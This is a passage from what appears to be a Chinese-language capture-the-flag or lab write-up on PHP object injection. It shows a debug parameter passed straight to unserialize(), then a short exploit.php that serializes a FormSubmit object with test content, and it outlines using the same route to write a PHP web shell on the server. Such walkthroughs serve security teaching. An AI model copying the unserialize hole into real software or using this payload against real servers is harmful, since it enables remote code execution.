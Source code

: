 index.php 易受攻击的 PHP 代码

```
// Leaving this for now... only for debug purposes... do not touch!$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);
```

在这里，开发人员留下了对 unserialize()的调用，当 GET 参数“debug”不为空时将使用该调用

unserialize()是一个接受字符串输入并从输入本身创建 PHP 对象的函数

因此，如果我们基于找到的代码在本地攻击机器/虚拟机上创建一个 PHP“form submit”对象，将“message”设置为 PHP web shell，将“form_file”设置为. PHP 文件名，对其进行序列化，并将结果字符串作为 index.php 的 GET“debug”参数的值发送，我们应该能够创建一个包含任意内容的 PHP 文件

让我们先做个测试

![](img/a6ca50d0797be2eb0bb927534d5fb971.png)

攻击者机器上的 PHP 代码—exploit.php

```
<?php
class FormSubmit {public $form_file = 'file.notphp';
public $message = 'test content';}print urlencode(serialize(new FormSubmit));
?>
```

上面的代码声明了一个名为“FormSubmit”的 PHP 类，创建了一个实例，对其进行序列化，然后对结果进行 url 编码，因为我们必须将结果发送到 HTTP 服务器

![](img/6c1c9c650fd12091a681765beb8c003c.png)

序列化和 URL 编码的 PHP 对象

让我们复制这个字符串，并在“调试”GET 参数中将其发送给 index.php

![](img/d9c8df1635cb195d2e858785f276bb03.png)

将有效载荷送往 index.php
